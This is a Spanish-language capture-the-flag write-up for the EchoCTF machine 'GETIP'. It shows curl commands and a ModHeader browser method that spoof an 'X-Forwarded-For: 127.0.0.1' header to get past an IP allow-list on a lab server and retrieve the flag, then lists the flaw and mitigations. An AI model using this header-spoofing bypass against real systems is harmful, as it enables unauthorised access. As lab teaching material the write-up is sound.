




# GETIP - CTF Writeup

---

## Introducción

La máquina **GETIP** de **EchoCTF** presenta un reto basado en la manipulación de cabeceras HTTP para lograr que el servidor interprete que la petición proviene de una IP permitida. La pista indica que cuando una solicitud web pasa por servidores intermedios, se añade una cabecera que indica para quién está siendo reenviada la petición. Para resolver el reto, debemos hacer que nuestra IP aparente ser `localhost` o `127.0.0.1`.

---

## Reconocimiento y Exploración

Al realizar una conexión HTTP a la dirección `http://10.0.41.6:1337/` recibimos la respuesta:

``` csharp
10.10.6.42 is not allowed...
```

Esta respuesta indica que la IP real desde la cual se realiza la petición (`10.10.6.42`) está bloqueada.

---

## Manipulación de Cabeceras para Bypass

Observamos que nos dice que nuestra `IP 10.10.6.42` no es permitida La hint anterior y esta respuesta indican que debemos de cambiar nuestra `IP a 127.0.0.1 o 'localhost'` mediante la manipulacion de cabeceras, esto se puede lograr de dos maneras, una grafica y una mediante terminal, explicare a continuacion ambas

### Método Terminal (usando curl)

Al hacer una petición simple con curl:

```bash
curl http://10.0.41.6:1337/
```

Obtenemos:

```
10.10.6.42 is not allowed...
```

Si queremos ver las cabeceras que nuestra petición envía, podemos usar:

```bash
curl -v http://10.0.41.6:1337/
```

Esto muestra información como:

```
> GET / HTTP/1.1
> Host: 10.0.41.6:1337
> User-Agent: curl/8.13.0
> Accept: */*
```

Para modificar la IP aparente, añadimos la cabecera `X-Forwarded-For` con la IP deseada:

```bash
curl -H "X-Forwarded-For: 127.0.0.1" http://10.0.41.6:1337/
```

Con esto, la petición aparenta venir de `127.0.0.1` en lugar de `10.10.6.42`.

Respuesta exitosa:

```
ETSCTF_SheesStealer_was_here%
```

---

### Método gráfico (usando navegador y extensiones)

1. Ingresamos a la URL `http://10.0.41.6:1337/` en el navegador y observamos el mensaje de bloqueo. 



2. Abrimos la extensión **ModHeader** (disponible para Chrome y Firefox).



3. Añadimos una nueva cabecera con:
   - Nombre: `X-Forwarded-For`
   - Valor: `127.0.0.1`


3. Recargamos la página o navegamos nuevamente a la URL.
4. La respuesta ahora nos mostrará la bandera correctamente.

---

## Identificación de Vulnerabilidades

- El servidor confía en el valor del header `X-Forwarded-For` sin validarlo adecuadamente.
- No existe un control de autenticación o validación de IPs robusto.
- La validación se basa únicamente en la IP remitida por cabeceras manipulables, lo que permite el spoofing.
- Esta confianza indebida abre la puerta a bypass de controles de acceso y filtrado.

---

## Medidas de Mitigación

- Validar y sanitizar las cabeceras `X-Forwarded-For` y similares para asegurarse que provienen de fuentes confiables.
- No confiar exclusivamente en cabeceras HTTP para determinar la IP real del cliente.
- Implementar controles de acceso basados en autenticación sólida en lugar de confiar en IPs.
- Configurar proxies y servidores frontales para evitar que usuarios puedan modificar cabeceras críticas.
- Registrar y monitorear accesos sospechosos y patrones anómalos.

---

``` c
Writeup Made With ❤️ By SheepsStealer
```

